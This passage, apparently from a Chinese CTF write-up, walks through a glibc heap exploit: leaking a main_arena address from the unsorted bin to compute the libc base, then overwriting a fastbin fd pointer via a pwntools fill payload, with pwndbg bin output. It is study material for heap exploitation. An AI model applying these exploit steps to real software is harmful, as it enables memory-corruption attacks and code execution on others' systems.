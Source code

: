 这个chunk4要被放到unsortedbin里面。

然后它指向main_arena的地址。

泄露地址，获得libc的基址：

```pythoN
dump(2)
#so here,we can print the address of main_arena
content = u64(p.recvuntil(b'\x7f')[-6:]+b'\x00\x00')
print(hex(content))
libc_base = (content) - 0x3c4b78
print(hex(libc_base))
```



然后分配一个chunk4，替代了上个chunk4。这个chunk4的大小是0x71,chunk2，也就是程序以为的chunk2，应该是0x21的大小。虽然下面的那个放合并的chunk5显示的是0x90，说上一个chunk处在空闲状态。 但其实chunk2并不处在空闲状态。

![image-20220407120658941](E:/CTF/CTF/ptmalloc.assets/image-20220407120658941.png)



接着freechunk4，也就是我们分配的这个0x60的chunk。

这个chunk4会被放到fastbin里面。

![image-20220407121128106](E:/CTF/CTF/ptmalloc.assets/image-20220407121128106.png)



然后修改chunk2的fd指针，修改地址为

```python
payload = p64(libc_base + 0x3C4AED)
fill(2,len(payload),payload)
```

然后fastbin：

```c
pwndbg> bin
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x55885630f080 —▸ 0x7fcdd7742aed (_IO_wide_data_0+301) ◂— 0xcdd7403ea0000000
0x80: 0x0
unsortedbin
all: 0x55885630f0f0 —▸ 0x7fcdd7742b78 (main_arena+88) ◂— 0x55885630f0f0
smallbins
empty
largebins
empty
```


